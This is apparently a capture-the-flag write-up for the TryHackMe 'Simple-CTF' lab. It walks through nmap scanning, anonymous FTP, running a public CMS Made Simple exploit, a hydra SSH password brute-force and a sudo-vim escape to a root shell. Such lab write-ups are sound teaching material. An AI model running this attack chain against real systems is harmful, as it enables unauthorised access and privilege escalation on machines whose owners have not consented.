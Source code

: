 # Simple-CTF
### Nmap 

`nmap -v -sC -sV -oN <DIRECTORY> $IP`

```
Host is up (0.39s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.12.253
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP
`$ ftp $IP`

`ftp> ls -al`

```
ftp> ls -al                                                                                   │root@kali:~/Documents/TryHackMe/Simple-Ctf# ls
200 PORT command successful. Consider using PASV.                                             │Information
150 Here comes the directory listing.                                                         │root@kali:~/Documents/TryHackMe/Simple-Ctf# ls
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .                                     │ForMitch.txt  Information
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..                                    │root@kali:~/Documents/TryHackMe/Simple-Ctf# ping 10.10.56.123
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub                                   │PING 10.10.56.123 (10.10.56.123) 56(84) bytes of data.
226 Directory send OK.                                                                        │64 bytes from 10.10.56.123: icmp_seq=1 ttl=63 time=275 ms
ftp> cd pub                                                                                   │^C
250 Directory successfully changed.                                                           │--- 10.10.56.123 ping statistics ---
ftp> ls                                                                                       │2 packets transmitted, 1 received, 50% packet loss, time 1002ms
200 PORT command successful. Consider using PASV.                                             │rtt min/avg/max/mdev = 274.740/274.740/274.740/0.000 ms
150 Here comes the directory listing.                                                         │root@kali:~/Documents/TryHackMe/Simple-Ctf# mv ForMitch.txt Information/
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt                          │root@kali:~/Documents/TryHackMe/Simple-Ctf# ls- al
226 Directory send OK.                                                                        │-bash: ls-: command not found
ftp> get ForMitch.txt                                                                         │root@kali:~/Documents/TryHackMe/Simple-Ctf# ls
local: ForMitch.txt remote: ForMitch.txt                                                      │Information
200 PORT command successful. Consider using PASV.                                             │root@kali:~/Documents/TryHackMe/Simple-Ctf# cd Information/
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).                         │root@kali:~/Documents/TryHackMe/Simple-Ctf/Information# ls -al
226 Transfer complete.                                                                        │total 20
166 bytes received in 0.00 secs (2.0039 MB/s) 
```
`$ cat ForMitch.txt`
```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!

```
### Port 80
> We go to the Browser for observing the Web-App

![Screenshot_2020-09-04_07-15-11](https://user-images.githubusercontent.com/56790998/92246651-0f733380-ee94-11ea-94cd-1ddb3bb2179e.png)

> We try searching for Robots.txt but the given directory doesn't exist

![robots txt](https://user-images.githubusercontent.com/56790998/92246753-329de300-ee94-11ea-87f1-d1a68332f6aa.png)

> Since Gobuster was slow I tried to brute-force direectory myself starting with the name of box *SIMPLE*


`$ curl http://$IP/simple`

```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://10.10.56.123/simple/">here</a>.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.56.123 Port 80</address>
</body></html>
root@kali:~/Documents/TryHackMe/Simple-Ctf# 
```
> Since it returned 301 we check that page


![simple_cms_home_page](https://user-images.githubusercontent.com/56790998/92247248-f323c680-ee94-11ea-9a50-0372f0de05c7.png)


## Enumeration

`$ searchsploit CMS made simple`

![searchsploit](https://user-images.githubusercontent.com/56790998/92247687-8ceb7380-ee95-11ea-8d1e-80d50511df6f.png)

![highlighted-exploit](https://user-images.githubusercontent.com/56790998/92247764-a8ef1500-ee95-11ea-88b3-d82d9100399a.png)

`$ searchsploit -m php/webapps/46635.py`

`$ mv 46635.py exploit.py`

`$ pip install termcolor`

`$ python exploit.py -u http://$IP/simple --crack -w /usr/share/wordlists/rockyou.txt`

> since this script takes a lot of time and its better to run 2 enumeration we can try brute-forcing SSH using HYDRA
and user as mitch which we got from FTP

`$ hydra -l mitch -P /usr/share/wordlists/rockyou.txt $IP -s 2222 -Vv`

```
[2222][ssh] host: 10.10.56.123   login: mitch   password: secret
```

`$ ssh mitch@10.10.56.123 -p 2222`

## Privilege Escalation

`$ which python3`

```
/usr/bin/python3
```

`$ python3 -c 'import pty;pty.spawn("/bin/bash")'`

`$ sudo -l`

```
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

`$ sudo vim`

> Press escape then : and type shell

`:shell`

`# whoami`

```
root
```

`ls /home/mitch/user.txt`

![user](https://user-images.githubusercontent.com/56790998/92249305-d89f1c80-ee97-11ea-9d21-ecb187edf5e3.png)

`ls /root/root.txt`

![root](https://user-images.githubusercontent.com/56790998/92249210-b0172280-ee97-11ea-93f5-0152bc87dc23.png)